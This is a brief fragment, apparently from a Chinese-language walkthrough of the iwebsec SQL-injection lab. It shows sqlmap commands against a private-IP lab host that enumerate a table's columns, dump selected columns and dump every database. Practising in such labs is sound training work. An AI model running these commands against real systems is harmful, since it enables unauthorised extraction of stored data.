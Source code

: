 

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D iwebsec -T user --columns
```

![image-20250904184241770](images/image-20250904184241770.png)

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 -D <数据库名> -T <表名> -C <列名1>,<列名2> --dump
```



同时爆所有

```
python sqlmap.py -u http://192.168.126.138/sqli/01.php?id=1 --dump-all
```

![image-20250904184405486](images/image-20250904184405486.png)
